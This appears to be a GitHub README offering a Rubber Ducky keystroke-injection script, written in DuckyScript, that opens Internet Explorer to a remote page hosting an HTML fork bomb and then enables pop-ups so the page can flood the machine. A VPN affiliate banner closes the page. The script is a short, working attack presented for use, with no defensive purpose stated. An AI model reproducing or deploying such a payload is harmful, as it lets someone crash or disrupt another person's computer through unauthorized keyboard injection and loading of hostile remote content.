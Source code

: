 # Rubber-Ducky_HTML_Fork-Bomb
A quickly Rubber Ducky HTML Fork Bomb Attack. WATTAH!!!!!!


![Alt text](https://raw.githubusercontent.com/JonnyBanana/HTML-Fork-Bomb.github.io/master/img/61l9sMFJ7pL._SX425_.jpg)

<h3> V1 </h3>

REM HTML Fork Bomb by Jonny Banana </BR>
DELAY 2000 </BR>
CONTROL ESCAPE </BR>
DELAY 200 </BR>
STRING C:\Program Files\Internet Explorer\iexplore.exe https://jonnybanana.github.io/HTML-Fork-Bomb.github.io/ </BR>
DELAY 200 </BR>
ENTER </BR>
REM set a long delay  to give time to this disgusting browser </BR>
DELAY 1000 </BR>
REM it's time to enable Pop-Up </BR>
TAB </BR>
DELAY 200 </BR>
ENTER </BR>




</BR>

<!-- Banner -->
<div align="center">
<a href="https://www.purevpn.com/order-now.php?aff=44922&amp;a_bid=bbd0f893" target="_blank" ><img src="https://affiliates.purevpn.com/accounts/default1/6hb82wqa2l/bbd0f893.jpg" alt="Best VPN" title="Best VPN" width="728" height="90" /></a>
</BR></BR>
</div>

